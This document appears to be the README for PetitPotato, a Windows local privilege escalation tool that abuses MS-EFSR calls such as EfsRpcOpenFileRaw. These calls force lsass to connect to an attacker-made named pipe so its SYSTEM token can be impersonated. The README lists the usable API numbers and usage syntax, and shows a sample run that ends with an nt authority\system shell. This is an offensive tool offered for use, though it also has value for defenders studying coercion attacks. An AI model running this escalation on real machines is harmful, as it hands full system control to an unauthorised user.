 # PetitPotato

Local privilege escalation via PetitPotam (Abusing impersonate privileges).

## Description

[PetitPotam](https://github.com/topotam/PetitPotam) uses MS-EFSR (Encrypting File System Remote), a protocol used to perform maintenance and management operations on encrypted data stored remotely and accessed over a network. There are a series of APIs similar to `EfsRpcOpenFileRaw` in MS-EFSR. The syntax of the `EfsRpcOpenFileRaw` API is shown below.

```c++
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

Such APIs can specify a UNC path via the FileName parameter to open encrypted objects on the server for backup or restore. When the path in the format `\\IP\C$` is specified, the lsass.exe service will access `\\IP\pipe\srvsvc` with `NT AUTHORITY SYSTEM` account privileges.

If we can call the `EfsRpcOpenFileRaw` API to force the local computer to connect to the malicious named pipe we created, then we can impersonate the named pipe client process and eventually gain the SYSTEKM privilege.

Here are all the APIs I found that have a FileName parameter, and most of them can be used for privilege escalation (but when I tested locally, some API calls failed, maybe I made a mistake somewhere):

|                MS-EFSR API                 | EfsID |
| :----------------------------------------: | :---: |
|             EfsRpcOpenFileRaw              |   0   |
|            EfsRpcEncryptFileSrv            |   1   |
|            EfsRpcDecryptFileSrv            |   2   |
|           EfsRpcQueryUsersOnFile           |   3   |
|         EfsRpcQueryRecoveryAgents          |   4   |
|     EfsRpcRemoveUsersFromFile (Failed)     |   5   |
|            EfsRpcAddUsersToFile            |   6   |
|             EfsRpcFileKeyInfo              |   7   |
| EfsRpcDuplicateEncryptionInfoFile (Failed) |   8   |
|           EfsRpcAddUsersToFileEx           |   9   |
|        EfsRpcFileKeyInfoEx (Failed)        |  10   |
|  EfsRpcGetEncryptedFileMetadata (Failed)   |  11   |
|  EfsRpcSetEncryptedFileMetadata (Failed)   |  12   |


## Usage

```powershell
PetitPotato.exe [EfsID] [Command]
```

- `EfsID`: MS-EFSR API number to use
- `Command`: command to execute

## Example

```cmd
C:\Users\Administrator\Desktop>PetitPotato.exe 3 cmd.exe

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.
[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [版本 10.0.18363.592]
(c) 2019 Microsoft Corporation。保留所有权利。

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

![image-20221030165055659](/images/image-20221030165055659.png)

![image-20221030165622668](/images/image-20221030165622668.png)

## Link

- https://github.com/topotam/PetitPotam
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://itm4n.github.io/from-rpcview-to-petitpotam/

